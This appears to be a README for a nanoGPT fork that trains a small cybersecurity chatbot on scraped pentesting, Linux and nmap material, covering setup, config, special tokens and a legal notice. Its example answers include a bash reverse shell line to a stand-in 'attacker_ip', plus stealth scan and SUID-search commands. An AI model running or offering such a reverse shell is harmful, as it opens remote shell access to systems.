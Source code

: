 # Cybersecurity Chatbot Training

This repository has been cleaned up and configured to train a specialized cybersecurity chatbot that can assist with penetration testing commands, Linux administration, and nmap usage.

## What This Bot Will Learn

- **Penetration Testing Commands**: Various pentesting tools and techniques
- **Linux Commands**: System administration and security commands  
- **Nmap Commands**: Network scanning and reconnaissance
- **Bash Scripts**: Security automation scripts
- **Cybersecurity Best Practices**: Common procedures and methodologies

## Quick Start

1. **Install Dependencies**:
   ```bash
   pip install -r requirements.txt
   ```

2. **Run the Complete Pipeline**:
   ```bash
   python setup_cybersecurity_bot.py
   ```

## Manual Steps

### 1. Scrape Data
```bash
python data_scraper.py
```
This will create a `scraped_data` directory with cybersecurity content from various sources.

### 2. Prepare Training Data
```bash
python data/prepare_cybersecurity.py
```
This converts the scraped data into the format needed for GPT training.

### 3. Train the Model
```bash
python train.py config/train_cybersecurity.py
```

### 4. Generate Responses
```bash
python sample.py --init_from=resume --out_dir=out-cybersecurity --start="<Q>How do I scan for open ports?</Q>"
```

## Configuration

The model is configured in `config/train_cybersecurity.py` with:
- Smaller model size (8 layers, 512 embedding) for faster training
- Cybersecurity-specific dataset
- Optimized hyperparameters for domain-specific training

## Special Tokens

The chatbot uses special tokens to understand context:
- `<Q>` and `</Q>` for questions
- `<A>` and `</A>` for answers  
- `<CMD>` and `</CMD>` for commands
- `<NMAP>` and `</NMAP>` for nmap specific commands
- `<SCRIPT>` and `</SCRIPT>` for bash scripts

## Example Usage

After training, you can ask questions like:

```
<Q>How do I perform a stealth port scan?</Q>
<A><NMAP>nmap -sS target_ip</NMAP></A>

<Q>Show me a reverse shell command</Q>
<A><CMD>bash -i >& /dev/tcp/attacker_ip/4444 0>&1</CMD></A>

<Q>How do I find SUID binaries?</Q>
<A><CMD>find / -perm -u=s -type f 2>/dev/null</CMD></A>
```

## Training Progress

Monitor training in the `out-cybersecurity` directory:
- `ckpt.pt` - Latest model checkpoint
- Training logs show loss decreasing over time
- Typical training takes 2-6 hours depending on hardware

## Hardware Requirements

- **GPU**: CUDA-compatible GPU recommended (RTX 3060 or better)
- **RAM**: 8GB+ system RAM
- **Storage**: 2GB+ free space for data and model
- **CPU**: If no GPU, training will be much slower but still possible

## Customization

To add more cybersecurity data sources:
1. Edit `data_scraper.py` to include additional URLs
2. Modify `data/prepare_cybersecurity.py` to add new prompt templates
3. Re-run the data preparation pipeline

## Files Kept from Original nanoGPT

- `model.py` - Core GPT implementation
- `train.py` - Training script
- `sample.py` - Text generation
- `configurator.py` - Configuration management
- `config/train_gpt2.py` - Reference config

## Files Added for Cybersecurity

- `data_scraper.py` - Web scraper for cybersecurity content
- `data/prepare_cybersecurity.py` - Data preparation for training
- `config/train_cybersecurity.py` - Training configuration
- `setup_cybersecurity_bot.py` - Complete pipeline script
- `requirements.txt` - Python dependencies

## Troubleshooting

1. **CUDA Out of Memory**: Reduce `batch_size` in config
2. **Slow Training**: Reduce `n_layer` and `n_embd` in config  
3. **Poor Quality**: Increase training time (`max_iters`)
4. **No GPU**: Set `device = 'cpu'` in config (much slower)

## Legal Notice

This tool is for educational and authorized testing purposes only. Always ensure you have permission before testing on any systems you don't own.
